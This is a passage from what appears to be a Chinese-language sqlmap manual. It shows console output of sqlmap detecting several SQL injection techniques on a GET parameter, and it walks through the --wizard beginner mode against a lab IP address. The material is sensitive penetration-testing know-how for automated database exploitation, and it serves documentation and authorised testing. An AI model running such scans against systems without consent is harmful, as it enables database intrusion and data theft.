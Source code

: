 	heuristic (parsing) test showed that the back-end DBMS could be 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
	do you want to include all tests for 'MySQL' extending provided level (1) and risk (1)? [Y/n] Y
	[xx:xx:14] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
	[xx:xx:14] [INFO] GET parameter 'id' is 'AND boolean-based blind - WHERE or HAVING clause' injectable 
	[xx:xx:14] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
	[xx:xx:14] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause' injectable 
	[xx:xx:14] [INFO] testing 'MySQL inline queries'
	[xx:xx:14] [INFO] testing 'MySQL > 5.0.11 stacked queries'
	[xx:xx:14] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
	[xx:xx:14] [INFO] testing 'MySQL > 5.0.11 AND time-based blind'
	[xx:xx:24] [INFO] GET parameter 'id' is 'MySQL > 5.0.11 AND time-based blind' injectable 
	[xx:xx:24] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
	[xx:xx:24] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other potential injection technique found
	[xx:xx:24] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
	[xx:xx:24] [INFO] target URL appears to have 3 columns in query
	[xx:xx:24] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
	[...]

#### 初级用户向导参数

	参数：--wizard 面向初级用户的参数，可以一步一步教你如何输入针对目标注入。
	
	$ python sqlmap.py --wizard
	
		sqlmap/1.0-dev-2defc30 - automatic SQL injection and database takeover tool
	
	http://sqlmap.org
	
	[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
	
	[*] starting at 11:25:26
	
	Please enter full target URL (-u): http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1
	POST data (--data) [Enter for None]: 
	Injection difficulty (--level/--risk). Please choose:
	[1] Normal (default)
	[2] Medium
	[3] Hard	
	> 1
	Enumeration (--banner/--current-user/etc). Please choose:
	[1] Basic (default)
	[2] Smart
	[3] All
	> 1
	
	sqlmap is running, please wait..
	